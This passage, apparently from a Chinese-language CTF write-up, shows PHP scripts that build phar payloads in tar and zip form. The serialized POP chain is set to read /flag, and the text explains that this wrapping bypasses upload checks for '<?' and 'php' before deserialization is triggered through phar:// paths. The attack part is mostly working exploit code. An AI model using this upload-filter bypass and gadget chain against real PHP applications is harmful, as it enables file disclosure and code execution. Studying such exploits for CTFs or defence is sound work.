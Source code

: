 > @system('rm -r .phar');
> @system('mkdir .phar');
> file_put_contents('.phar/.metadata',serialize($c));
> system('tar -cf phar.tar .phar/*');
> ```
>
> zip：
>
> ```php
> <?php
>  class View {    
>  public $fn;    
>  public function __invoke(){        
>      $text = base64_encode(file_get_contents($this->fn));
>      echo "<script>alert('".$text."');self.location=document.referrer;</script>";
>  }
> }
> class Fun{    
>  public $fun = ":)";
>  public function __toString(){
>      $fuc = $this->fun;
>      $fuc();
>      return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
>  }
>  public function __destruct()    {
>      echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
>  }
> }
> $a = new View();
> $a->fn = '/flag';
> $b = new Fun();
> $b->fun = $a;
> $c = new Fun();
> $c->fun = $b;
> $d = serialize($c);
> if(file_exists('phar.zip')) {
>  @unlink("phar.zip");
> }
> $zip = new ZipArchive;
> $res = $zip->open('phar.zip', ZipArchive::CREATE);
> $zip->addFromString('test.txt', 'file content goes here');
> $zip->setArchiveComment($d);
> $zip->close();
> ```
> 通过上传 zip 或 tar 文件包装的phar文件, 可以绕过对 `<?` 和 `php` 的语法检查
>
> 然后通过 phar 反序列化触发 pop 链得到 flag
>
> ```
> phar://./phar.zip
> phar:///var/www/html/uploads/phar.zip
> ```

